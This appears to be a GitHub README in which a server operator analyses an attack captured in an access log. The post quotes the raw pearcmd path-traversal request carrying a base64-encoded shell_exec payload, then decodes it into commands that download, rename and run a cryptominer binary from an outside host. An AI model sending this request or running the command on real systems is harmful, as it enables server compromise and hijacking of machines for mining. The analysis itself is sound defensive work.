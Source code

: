 # redtail

While analyzing my daily access.log report, I noticed something really, really wrong.


> 26 December 2023, 04:21	202.1.200.239	GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode(\


Above is the processed access.log report. I believe there's a raw base64 string present over there, but it got trimmed by my faulty regex script (probably). So I decided to inspect the raw access.log file : 

> 202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"

Umm... Why is the `shell_exec` part missing here?

I decided to modify my access.log processor script. So I instructed the script that whenever a string containing "base64_decode" is being processed, please show me the raw log line.

Here's what I got :


```
202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&amp;+config-create+/&amp;/<!--?shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"));?-->+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"
```
Here's the true culprit 

> shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"))

And finally, I managed to extract the base64 string.


> bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=


Let's decode this base64 string.


> mkdir -p /tmp/$(whoami); cd /tmp/$(whoami); wget http://dw.ohuyal.xyz/download/redtail.x86_64; curl -O http://dw.ohuyal.xyz/download/redtail.x86_64; mv redtail.x86_64 php.selfrep; chmod +x php.selfrep; ./php.selfrep; echo PHP.SELFREP


Umm. I don't understand it. Let's ask ChatGPT.

----

This script seems to be a set of commands executed in a Unix-like shell (like Bash). Let's break it down step by step:

1. **Create a temporary directory with the user's name:**
   ```bash
   mkdir -p /tmp/$(whoami)
   ```
   - `mkdir`: command to create a directory.
   - `-p`: option to create parent directories if they don't exist.
   - `/tmp/$(whoami)`: specifies the path of the directory. `/tmp/` is the temporary directory, and `$(whoami)` is a command substitution that gets replaced with the current username.

2. **Change to the newly created temporary directory:**
   ```bash
   cd /tmp/$(whoami)
   ```
   - `cd`: command to change the current working directory.

3. **Download a file named "redtail.x86_64" from a remote server using `wget` and `curl`:**
   ```bash
   wget http://dw.ohuyal.xyz/download/redtail.x86_64
   curl -O http://dw.ohuyal.xyz/download/redtail.x86_64
   ```
   - `wget`: command to download files from the internet.
   - `curl -O`: command to download a file and save it with the same name as the remote file.

4. **Rename the downloaded file to "php.selfrep":**
   ```bash
   mv redtail.x86_64 php.selfrep
   ```
   - `mv`: command to rename or move files.

5. **Give execute permissions to the renamed file:**
   ```bash
   chmod +x php.selfrep
   ```
   - `chmod +x`: command to make the file executable.

6. **Execute the renamed file:**
   ```bash
   ./php.selfrep
   ```
   - `./`: specifies the current directory.
   - `php.selfrep`: the executable file that was downloaded and renamed.

7. **Print a message "PHP.SELFREP":**
   ```bash
   echo PHP.SELFREP
   ```
   - `echo`: command to print text to the console.

----

Before that URL is unaccessible, I archived the `redtail.x86_64` executable here for research purposes.

### So?

I wish some security researchers could find out what these executables actually do. 

Oh, I also managed to find another malware in the wild, similar to this : [jaws.exploit](https://github.com/altilunium/jaws.exploit). 

All I have to do to get this one is by setting up a honeypot server with a publicly accessible IP.

### Epilogue

* VirusTotal analysis of this `redtail.x86_64` file : [miner.bldbd/xmrig](https://www.virustotal.com/gui/file/819f53b96bb5b8869531d3880b53cb5f354b2a2f5171e783bad495e1ac2cbbf0/detection)

### Epilogue 2

It's not my faulty regex script. In fact, I just fail to properly render it by using HTML. Here's the actual access.log line, shown by using simple grep.

> grep "shell_exec" access.log

```
202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"));?>+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"
```

![image](https://github.com/altilunium/redtail/assets/70379302/f6b99e3e-3e12-48b6-bbda-38e68937a883)


